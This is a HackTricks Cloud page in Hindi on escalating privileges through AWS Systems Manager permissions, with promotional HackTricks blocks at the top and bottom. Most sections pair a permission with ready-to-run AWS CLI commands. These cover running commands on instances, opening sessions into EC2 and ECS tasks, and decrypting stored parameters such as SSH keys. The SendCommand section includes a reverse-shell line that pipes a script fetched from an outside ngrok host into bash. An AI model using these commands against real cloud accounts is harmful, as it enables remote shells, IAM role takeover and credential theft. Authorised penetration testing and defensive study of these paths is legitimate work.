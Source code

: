 # AWS - SSM विशेषाधिकार

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

एक हमलावता जिसके पास **`ssm:SendCommand`** अनुमति है, **इंस्टेंसेस में कमांड चला सकता है** जो अमेज़न SSM एजेंट चला रहे हैं और **उसके अंदर चल रहे IAM रोल** को कम्प्रोमाइज़ कर सकता है।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
यदि आप इस तकनीक का उपयोग किसी पहले से ही कंप्रोमाइज़्ड EC2 इंस्टेंस के अंदर वर्चस्व बढ़ाने के लिए कर रहे हैं, तो आप स्थानीय रैव शैल को कैप्चर कर सकते हैं:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**संभावित प्रभाव:** चल रही इंस्टेंसेज के साथ जुड़े EC2 IAM रोल्स में सीधा प्रिविलेज इस्केलेशन।

### `ssm:StartSession`

एक हमलावर जिसके पास **`ssm:StartSession`** अनुमति है, वह अमेज़ॅन SSM एजेंट चल रही इंस्टेंसेज में **एक SSH जैसा सेशन शुरू कर सकता है** और उसमें चल रहे IAM रोल **को कम्प्रोमाइज़** कर सकता है।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
एक सत्र शुरू करने के लिए आपको **SessionManagerPlugin** इंस्टॉल करने की आवश्यकता है: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**संभावित प्रभाव:** SSM एजेंट चल रहे EC2 IAM रोल्स तक सीधा प्राइविलेज इस्केलेशन।

#### ECS को प्राइविलेज इस्केलेशन

जब **ECS tasks** **`ExecuteCommand` सक्षम** होते हैं, पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके **कंटेनर के अंदर एक कमांड चला सकते हैं**।\
[**दस्तावेज़**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) के अनुसार यह उस उपकरण के बीच एक सुरक्षित चैनल बनाकर किया जाता है जिसका उपयोग आप "exec" कमांड को प्रारंभ करने के लिए करते हैं और SSM सेशन मैनेजर कंटेनर के लिए लक्ष्यित है। (इसके काम करने के लिए SSM सेशन मैनेजर प्लगइन आवश्यक है)\
इसलिए, `ssm:StartSession` वाले उपयोगकर्ता उस विकल्प के साथ ECS tasks के अंदर एक शैल मिला सकते हैं जिसे सक्षम करने के लिए केवल निम्नलिखित को चलाना होगा:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**संभावित प्रभाव:** `ExecuteCommand` सक्षम किए गए चल रहे tasks के साथ जुड़े `ECS` IAM roles को सीधा वृद्धि।

### `ssm:ResumeSession`

एक हमलावर जिसके पास अनुमति है **`ssm:ResumeSession`** वह उन इंस्टेंसेज में एक SSH जैसा सत्र फिर से शुरू कर सकता है जिनमें Amazon SSM एजेंट चल रहा है जिनका एक **विच्छेदित** SSM सत्र स्थिति है और उसके अंदर चल रहे IAM Role को **क्षति पहुंचा सकता ह।
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**संभावित प्रभाव:** चल रहे इंस्टेंसेज के साथ जुड़े EC2 IAM रोल्स में सीधा प्रिविलेज इस्केलेशन, SSM एजेंट्स चल रहे हों और डिस्कनेक्टेड सेशन्स।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उल्लंघक जिसके पास उल्लिखित अनुमतियाँ हैं, वह **SSM parameters** की सूची बना सकेगा और उन्हें **साफ-सुथरे पाठ में पढ़ सकेगा**। इन पैरामीटर्स में आपको अक्सर **ऐसी संवेदनशील जानकारी** मिल सकती है जैसे SSH कुंजी या API कुंजी।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटर्स में संवेदनशील जानकारी खोजें।

### `ssm:ListCommands`

इस अनुमति वाले हमलावर सभी **कमांड्स** की सूची बना सकते हैं और उम्मीद है कि उनमें **संवेदनशील जानकारी** मिलेगी।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइन्स में संवेदनशील जानकारी खोजें।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों के साथ एक हमलावर सभी भेजी गई **कमांड्स** की सूची बना सकता है और उम्मीद है कि उसमें उत्पन्न **संवेदनशील जानकारी** पा सकता है।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**संभावित प्रभाव:** कमांड लाइन के आउटपुट में छिपी संवेदनशील जानकारी खोजें।

### Codebuild

आप कोडबिल्ड परियोजना में बनाई जा रही एक SSM का उपयोग भी कर सकते हैं:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन HackTricks में देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks और HackTricks Cloud** github repos में PRs सबमिट करके।

</details>
